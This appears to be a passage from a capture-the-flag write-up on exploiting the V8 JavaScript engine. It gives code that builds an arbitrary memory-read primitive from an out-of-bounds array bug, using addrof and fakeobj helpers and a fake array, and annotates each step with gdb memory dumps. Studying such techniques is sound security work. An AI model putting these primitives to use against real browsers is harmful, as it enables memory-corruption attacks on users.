 ![](./solution/assets/arbitrary-read-primitive.jpg)

```
// If we want to leak the following string:
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));
// %SystemBreak();
// [+] Address of target string: 0xc6a37f9f3c9
// (gdb) x/32xw 0xc6a37f9f3c9-1
// 0xc6a37f9f3c8:	0xd9840461	0x00003369	0xe62bbeea	0x00000008
// 0xc6a37f9f3d8:	0x41414141	0x41414141	0xd9840461	0x00003369  <-- target_string
// 0xc6a37f9f3e8:	0xfe1f98a6	0x00000012	0x67726174	0x735f7465

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));
// %SystemBreak();

// [+] Leak address of floatArray: 0x3dbbd148f619
// (gdb) x/32xw 0x3dbbd148f619-1-0x30
// 0x3dbbd148f5e8:	0xd98414f9	0x00003369	0x00000000	0x00000004  <-- FixedDoubleArray
// 0x3dbbd148f5f8:	0x43142ed9	0x00003fb1	0x33333333	0x3ff33333
// 0x3dbbd148f608:	0x37f9f3c9	0x00000c6a	0x66666666	0x3ff66666  <-- elements[2]
// 0x3dbbd148f618:	0x43142ed9	0x00003fb1	0xd9840c71	0x00003369  <-- JSArray
// 0x3dbbd148f628:	0xd148f5e9	0x00003dbb	0x00000000	0x00000004  <-- elements ptr
// 0x3dbbd148f638:	0xd9840561	0x00003369	0x43142ed9	0x00003fb1
// 0x3dbbd148f648:	0xd98412c9	0x00003369	0x00000000	0x00000001
// 0x3dbbd148f658:	0x00000000	0x00000400	0xd98413b9	0x00003369

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10
```
